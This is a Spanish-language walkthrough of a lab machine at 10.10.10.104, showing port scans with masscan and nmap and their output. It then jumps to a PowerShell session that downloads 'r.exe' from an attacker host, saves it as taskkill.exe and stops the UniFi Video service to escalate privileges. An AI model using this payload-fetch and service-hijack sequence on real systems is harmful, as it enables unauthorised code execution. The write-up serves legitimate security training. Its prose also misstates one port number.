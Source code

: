 Logramos identificar al menos tres puertos. Realicemos el escaneo ahora con masscan:

``` text
root@laptop:~# masscan -e tun0 -p0-65535,U:0-65535 --rate 500 10.10.10.104

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-15 03:07:13 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131072 ports/host]
Discovered open port 5985/tcp on 10.10.10.104
Discovered open port 443/tcp on 10.10.10.104
Discovered open port 3389/tcp on 10.10.10.104
Discovered open port 80/tcp on 10.10.10.104
```

Como podemos ver, tenemos abiertos los mismos puertos que nmap descubrió más uno nuevo, 5995/tcp. Continuemos con la enumeración de servicios.

# Services Identification

Lanzamos un nmap ahora con destino a los 4 puertos descubiertos:

``` text
root@laptop:~# nmap -p80,443,3389,5985 -A -T4 10.10.10.104
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-14 21:48 CST
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 21:49 (0:00:00 remaining)
Nmap scan report for 10.10.10.104
Host is up (0.20s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2019-02-15T03:49:08+00:00; 0s from scanner time.
| tls-alpn:
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2019-02-14T01:47:31
|_Not valid after:  2019-08-16T01:47:31
|_ssl-date: 2019-02-15T03:49:07+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|10 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10:1607
Aggressive OS guesses: Microsoft Windows Server 2016 (90%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService